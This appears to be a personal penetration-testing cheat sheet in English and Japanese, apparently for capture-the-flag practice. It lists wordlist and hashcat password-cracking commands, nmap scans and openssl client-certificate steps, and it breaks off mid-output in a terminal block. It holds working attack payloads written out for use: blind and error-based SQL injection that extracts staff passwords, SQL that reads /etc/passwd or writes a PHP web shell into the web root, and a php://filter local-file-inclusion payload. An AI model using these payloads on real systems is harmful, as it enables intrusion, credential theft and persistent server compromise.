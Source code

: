   - wordlist
    - cewl
    - [username-anarchy](https://github.com/urbanadventurer/username-anarchy)
    -  hashcat --force passwords.txt -r /usr/share/hashcat/rules/best64.rule --stdout
      - echo password | hashcat -r /usr/share/hashcat/rules/best64.rule --stdout
    
  - sql
    - almost cases, passwords are hex (hash values).
      - "abcdef0123456789$"
    - length is 40 chars(sha1).
    - and substr((select password from staff limit 0, 1), 19, 1) = 'a'
      - substr(EXPRESSION, START_FROM_ONE, LENGTH)
    - load data local infile '/etc/passwd' into table 'test'
      - '/etc/passwd' is a client file
    - select '<?php ?>' into outfile '/var/www/html/shell.php';
      - '/var/www/html/shell.php' is a server file
    - `extractvalue(0, concat(0x0a, (select * from tables)))`
      - Errorベースの際に有効
      - extractvalueは引数にxpathを取るが、concat部分がxpathではないため、エラーとして、concatの文字列を返す
    
  - LFI
    - php://filter/convert.base64-encode/resource=file_name.php
    
  - nmap
  
    - fast scan
    - nmap -p- --max-retries=0 -T5 127.0.0.1
  
  - openssl
    - client certificate
      - generate  the private key
        - openssl genrsa -out client.key 4096
      - private key => CSR
        - The CSR is self signed.
        - The CSR constains the public key and is signed with the private key. 
        - openssl req -new -key client.key -out client.csr
      - CSR  + ca.key + ca.crt => CER
        - The certificate is required for filling objects field.
        - openssl x509 -req -in client.csr -CA ca.crt -CAkey ca.key -set_serial 9001 -extensions client -days 365 -outform PEM -out client.cer
      - CER + private key => PKCS12
        - archive the key and crtificate.
        - openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
    
  - vhost
    - 必ずgobusterに-vオプションをつけてすべて出力すること
  
  - hashcat
    - hashcat -a 0 -m hash_type hash.txt rockyou.txt
    
    - https://github.com/hashcat/hashcat-utils
    
    - IEEE802.3クラックなどにも使える
    
      ```console
      ┌─[✗]─[rio@parrot]─[~/Htb/Olympus/hashcat-utils/src]
      └──╼ $./cap2hccapx.bin ../../captured.cap  ../../captured.hccapx
      Networks detected: 1
      